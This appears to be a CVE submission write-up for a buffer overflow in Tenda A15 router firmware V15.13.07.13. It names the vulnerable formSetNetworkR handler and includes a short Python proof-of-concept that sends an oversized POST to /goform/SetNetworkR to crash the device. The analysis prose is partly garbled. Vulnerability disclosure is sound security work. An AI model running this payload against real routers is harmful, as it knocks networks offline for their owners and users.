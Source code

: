 # CVE submission
Affected products and versions: Tenda A15 V15.13.07.13

Affected object type: Network device (router)

Vulnerability type: buffer overflow

Vulnerability URL: http://xxx/goform/SetNetworkR

Vulnerability description: Tengda router A15 V15.13.07.13 has a buffer overflow vulnerability, which can be exploited by an attacker to cause a denial of service.

Vulnerability Analysis Process:
Router Firmware Download:https://www.tendacn.com/download/detail-3187.html
![image](https://github.com/user-attachments/assets/943995f7-1f9f-465c-9592-bdaa3469b4f0)

The vulnerability occurs in the formSetNetworkR function
![image](https://github.com/user-attachments/assets/daf9be37-5fe4-4890-90f0-9c92f7681d2f)

The program obtains the parameter "HTTP/1.1 200 OKrnContent-Length:%drnContent-type: text/plain; charset=utf-8rnPrag ma: no-cachernCache-Control: no-cachernrn", and then pass the user's input into the websDone function, which will handle the characters entered by the user, and if the input value is too large, it will not be processed.

![image](https://github.com/user-attachments/assets/779de29a-970d-4577-80b9-14644242812f)

Cross-locate the formArpNerworkSet function route to SetNetworkR

Attack payloads：
import requests

url = "http://192.168.85.160/goform/SetNetworkR"
data = {
    "HTTP/1.1 200 OK\r\nContent-Length:%d\r\nContent-type: text/plain; charset=utf-8\r\nPrag ma: no-cache\r\nCache-Control: no-cache\r\n\r\n":b'A'*1000000000
}
res = requests.post(url=url,data=data)
print(res.content)

Repetition：
Set up a simulation environment：
![image](https://github.com/user-attachments/assets/0130c71f-603e-4252-894f-a7b787e035fa)

![image](https://github.com/user-attachments/assets/436b76be-a965-4405-a633-aea2ae377111)

Run the script
![image](https://github.com/user-attachments/assets/bdd34207-e46a-40eb-969a-f09294a4cdfb)

CPU occupancy
![image](https://github.com/user-attachments/assets/59d8dbbc-5cee-4070-9d8d-c0a6ac731589)

The router crashes, the website cannot be accessed, and the access denial attack succeeds

Vulnerability reproduction video:
Link: https://pan.baidu.com/s/1HX0p1F342ZmpUZNdoWCkyw 
Extraction code: rjvp
